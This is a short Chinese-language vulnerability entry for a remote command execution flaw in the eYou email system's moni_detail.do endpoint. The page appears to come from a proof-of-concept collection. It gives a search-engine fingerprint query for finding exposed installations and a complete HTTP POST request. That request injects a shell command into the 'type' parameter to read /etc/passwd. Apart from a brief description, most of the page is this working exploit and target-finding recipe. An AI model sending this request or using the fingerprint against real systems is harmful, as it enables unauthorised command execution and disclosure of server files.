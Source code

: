 # 亿邮电子邮件系统 moni_detail.do 远程命令执行漏洞

## 漏洞描述

亿邮电子邮件系统 存在远程命令执行漏洞，攻击者可以执行任意命令

## 漏洞影响

<a-checkbox checked>亿邮电子邮件系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="亿邮电子邮件系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313103732287.png)



漏洞请求包如下



```plain
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313103731648.png)



